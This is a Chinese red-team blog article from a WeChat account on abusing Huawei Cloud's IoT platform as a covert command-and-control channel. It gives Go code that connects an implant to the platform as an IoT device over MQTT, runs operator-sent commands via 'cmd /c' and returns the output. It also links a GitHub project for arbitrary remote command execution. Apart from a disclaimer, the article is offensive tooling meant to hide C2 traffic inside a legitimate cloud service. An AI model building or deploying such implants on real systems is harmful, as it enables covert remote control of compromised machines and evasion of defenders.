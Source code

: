 #  集权系统即C2-华为云

原创 unknown  [ 极致攻防实验室 ](javascript:void\(0\);)

**极致攻防实验室** ![]()

微信号 jz_sec

功能介绍 极致攻防实验室专注于最前沿，最基础，最实际的红蓝对抗黑客技术。

____

___发表于_

收录于合集

#红队 2 个

#渗透 3 个

#C2 3 个

**免责声明：**

本文章或工具仅供安全研究使用，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，极致攻防实验室及文章作者不为此承担任何责任。

 **前言：**

在上一篇文章中使用了[牧云主机管理](http://mp.weixin.qq.com/s?__biz=Mzg5MDcyODg4OA==&mid=2247483762&idx=1&sn=cc6ff2548dfafbd338ae36601c9f461a&chksm=cfd979a5f8aef0b32957ce295a584c82d0c4fb39668027c7ca7094500f4d1c4f21e5a803eaa6&scene=21#wechat_redirect)充当远程C2，利用其自带官方签名和官方通信信道的天然优势，结合默认安装手法，看似已经完美。但是作为服务的使用者，一切能力都是建立Sass服务商所提供的功能，其实仅简单的命令执行和文件上传，还是不太满足红队工作的常见场景。本文将介绍另一款使用某云厂商的物联网平台用作红队C2，并且可以在普通权限下，可自主实现功能代码与平台进行交互(附项目源码)，用于拓展与满足红队日常渗透场景。（再次申明：云服务需要实名认证，请勿用于非法用途）。

  

 **一、平台准备：**

 **开通免费单元：**

使用账号登录到物联网平台，在IoTDA实例中，点击标准版，开通免费单元

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093700.png)

实例名称随便填写，可以看到免费版支持1000台设备在线  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093707.png)  

  

 **创建产品：**  

创建产品,除了协议类型和数据格式，可以随便填写或选择，其中协议类型可以选择多种协议，此处选择MQTT协议。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093708.png)

 **创建服务：**

定义模型，才能创建服务：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093711.png)

添加服务后，添加命令并且新增命令，命令参数此处添加了两个，用于接下来的命令执行的下发和响应。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093712.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093714.png)

  

 **注册设备：**

设备ID和密钥用于后续C2的连接，其他默认即可：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093715.png)

注册设备完成后如图所示，等待设备连接后激活：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093716.png)

  

 **二、C2连接与功能开发：**

C2开发即iot设备的开发，参考官方文档SDK参考，可以使用java、c#、c、python、go等语言进行开发,本文将使用GO语言进行c2（设备）的开发与连接：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093718.png)

 ** **  
****

 ** **设备连接：****  

CreateIotDevice处填入注册设备时的设备id和密钥、连接地址查看实例的接入信息

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package main  
    import (  "fmt"  "github.com/ctlove0523/huaweicloud-iot-device-sdk-go")  
    func main() {  // 创建一个设备并初始化  device := iot.CreateIotDevice("xxx", "xxx", "tls://xxxx.xxx.myhuaweicloud.com:8883")  device.Init()  if device.IsConnected() {    fmt.Println("device connect huawei iot platform success")  } else {    fmt.Println("device connect huawei iot platform failed")  }  
      var forever chan struct{}  <-forever}

  

尝试连接，平台测可以看到设备在线

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093719.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093720.png)

  

 **功能开发：**

接下来编写一个执行ipconfig功能

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package main  
    import (  "fmt"  "github.com/ctlove0523/huaweicloud-iot-device-sdk-go")  
    func main() {  // 创建一个设备并初始化  device := iot.CreateIotDevice("xxx", "xxx", "tls://xxxx.xxx.myhuaweicloud.com:8883")  device.Init()  if device.IsConnected() {    fmt.Println("device connect huawei iot platform success")  } else {    fmt.Println("device connect huawei iot platform failed")  }  // 添加用于处理平台下发命令的callback  device.AddCommandHandler(func(command iot.Command) (bool, interface{}) {    cmd := exec.Command("cmd", "/c", "ipconfig")      output, err := cmd.CombinedOutput()    if err != nil {      return false, ""    }    return true, string(output)    })  
      var forever chan struct{}  <-forever}

  

平台侧调试：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093721.png)

点击发送，可以看到命令结果回显：  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093722.png)

  

 **三、hw-iot-c2:**

https://github.com/UltimateSec/hw-iot-c2

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093723.png)

修改一下命令形式，适配c2架构

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093724.png)

任意命令执行：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619093725.png)

更多功能可参考代码自主拓展。

  
 **四、局限**

  * 自定义程序，无官方签名
  * 云服务实名认证，请合法合规使用  

  
 **五、参考**  
https://support.huaweicloud.com/sdkreference-iothub/iot_02_00920.html  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

